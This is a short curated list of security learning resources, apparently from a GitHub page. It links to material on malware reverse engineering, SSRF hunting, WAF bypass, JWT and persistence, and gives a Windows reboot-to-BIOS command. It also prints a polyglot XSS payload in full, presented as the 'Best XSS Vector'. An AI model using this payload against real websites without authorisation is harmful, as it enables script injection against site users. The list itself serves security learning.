 Training: [Malware Reverse Engineering for Beginners](https://www.intezer.com/blog/malware-analysis/malware-reverse-engineering-beginners/)

Resource: Reboot directly into BIOS
```
shutdown /r /fw /f /t 0
```
[Credit: @NetworkChuck](https://twitter.com/NetworkChuck)

Resources: [Free CyberSec Services and Tools](https://www.cisa.gov/free-cybersecurity-services-and-tools)

Article: [How I Found an SSRF](https://systemweakness.com/bug-bounty-how-i-found-an-ssrf-reconnaissance-7b1821a1b1fd)

Video: [Bypass WAF by Finding the Origin IP](https://www.youtube.com/watch?v=jfjzYpgte-A)

Resource: [JWT Simplified](https://securityzines.com/flyers/jwt.html)

Resource: Best XSS Vector
```
JavaScript://%250Aalert?.(1)//
'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-->
</Title/</Style/</Script/</textArea/</iFrame/</noScript>
\74k<K/contentEditable/autoFocus/OnFocus=
/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```
[Credit: @0x0SojalSec](https://twitter.com/0x0SojalSec/status/1579305809812807680?s=20&t=D0p-ZP4RKMFuT4Gm8tRu3g)

Resource: [Persistence mechanisms](https://persistence-info.github.io/)

Resource: [All In One Recon Tool](https://github.com/D3Ext/AORT)


